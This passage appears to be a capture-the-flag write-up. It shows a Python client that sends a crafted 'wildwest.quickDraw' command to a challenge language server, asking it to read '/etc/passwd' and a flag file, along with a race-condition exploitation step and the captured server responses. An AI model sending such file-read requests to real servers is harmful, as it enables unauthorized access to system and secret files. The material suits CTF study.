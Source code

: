 ```python
                "MinimumNameLength": 1,
                "UseFileSystem": True,
            }]
        })
        print("ExecuteCommand response:", response)

        diagnostics = client.read_response()
        print("Diagnostics response:", diagnostics)
        
        diagnostics = client.read_response()
        print("Diagnostics response:", diagnostics)

        response = client.send_request("workspace/executeCommand", {
            "Command": "wildwest.quickDraw",
            # Filename, LineNumber, ?
            "Arguments": ["/etc/passwd", 0, "hello there"]
        })
        print("ExecuteCommand response:", response)
        print(client.read_response())

        # shutdown
        response = client.send_request("shutdown", None)
        print("Shutdown response:", response)
    finally:
        client.close()
```
I am skipping over some stuff here, but the code is self explanatory. 
# Exploitation
Exploitation was as easy as running two versions of the above code twice, once with a normal file (/etc/passwd works) and one with "flag". You run the one containing flag first, setting the error and triggering the delay, then you run the other file. File one (ran slightly after):
```sh
h@DESKTOP-TH1NKC3 ~/Downloads> python test.py
Host: 54.221.151.72
Port: 7003
Initialization response: {'id': 1, 'result': {'capabilities': {'textDocumentSync': 1, 'hoverProvider': True, 'renameProvider': True, 'completionProvider': {'resolveProvider': False, 'triggerCharacters': ['w', 'r', '_', 'f']}, 'executeCommandProvider': {'commands': ['wildwest.quickDraw']}}}, 'jsonrpc': '2.0'}
ExecuteCommand response: {'id': 4, 'result': '🤠 Loaded new config! Now prefix="a" minLen=1 enforce=true\n', 'jsonrpc': '2.0'}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
ExecuteCommand response: {'jsonrpc': '2.0', 'method': 'window/showMessage', 'params': {'type': 3, 'message': "🤠 YEEHAW! That line's wilder than a buckin' bronco!\n\nYour line:\n> "}}
{'id': 5, 'result': "🤠 YEEHAW! That line's wilder than a buckin' bronco!\n\nYour line:\n> ", 'jsonrpc': '2.0'}

Shutdown response: {'id': 6, 'result': None, 'jsonrpc': '2.0'}
```
File two (ran slightly before but at the same time as the above file):
```sh
[h@DESKTOP-TH1NKC3:~/Downloads]$ python test2.py
Host: 54.221.151.72
```